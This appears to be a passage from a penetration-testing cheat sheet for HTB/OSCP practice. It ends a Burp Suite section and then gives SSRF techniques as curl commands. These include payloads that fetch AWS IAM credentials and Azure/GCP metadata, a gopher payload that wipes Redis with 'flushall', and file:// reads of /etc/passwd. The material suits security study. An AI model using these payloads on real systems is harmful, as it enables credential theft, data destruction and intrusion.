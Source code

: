 ```bash
# Use Burp Intruder for:
# - Parameter value fuzzing
# - Directory enumeration
# - Authentication brute forcing
# - Session token analysis

# Step 5: Extension integration
# Leverage Burp extensions for specialized testing:
# - Param Miner for hidden parameter discovery
# - AuthMatrix for authorization testing
# - Upload Scanner for file upload vulnerabilities
```

## Server-Side Request Forgery (SSRF) Testing

### **SSRF Detection and Exploitation**

**What SSRF vulnerabilities are:** Flaws that allow attackers to make requests from the server to internal or external systems, bypassing network segmentation and access controls.

**Why SSRF is critical in HTB/OSCP:** Often leads to internal network access, cloud metadata access (AWS, Azure), and can be chained with other vulnerabilities for significant impact.

```bash
# Basic SSRF testing
curl -X POST -d "url=http://127.0.0.1:80" http://target.com/fetch.php
curl -X POST -d "url=http://localhost:22" http://target.com/fetch.php
curl -X POST -d "url=http://10.0.0.1:3389" http://target.com/fetch.php
# Tests for internal network access
# Common internal services: SSH (22), RDP (3389), databases

# Cloud metadata access (AWS)
curl -X POST -d "url=http://169.254.169.254/latest/meta-data/" http://target.com/fetch.php
curl -X POST -d "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/" http://target.com/fetch.php
# AWS metadata service access
# May reveal IAM credentials and instance information

# Azure metadata access
curl -X POST -d "url=http://169.254.169.254/metadata/instance?api-version=2021-02-01" -H "Metadata: true" http://target.com/fetch.php
# Azure metadata service
# Requires Metadata header

# Google Cloud metadata access  
curl -X POST -d "url=http://metadata.google.internal/computeMetadata/v1/instance/" -H "Metadata-Flavor: Google" http://target.com/fetch.php
# Google Cloud metadata
# Different endpoint and header requirement

# Protocol smuggling for SSRF bypass
curl -X POST -d "url=gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a" http://target.com/fetch.php
# Gopher protocol to interact with Redis
# Can execute Redis commands via SSRF

curl -X POST -d "url=dict://127.0.0.1:6379/info" http://target.com/fetch.php
# Dict protocol for service probing
# Useful for port scanning via SSRF

# File protocol access (if supported)
curl -X POST -d "url=file:///etc/passwd" http://target.com/fetch.php
curl -X POST -d "url=file:///c:/windows/system32/drivers/etc/hosts" http://target.com/fetch.php
# Local file access via SSRF
```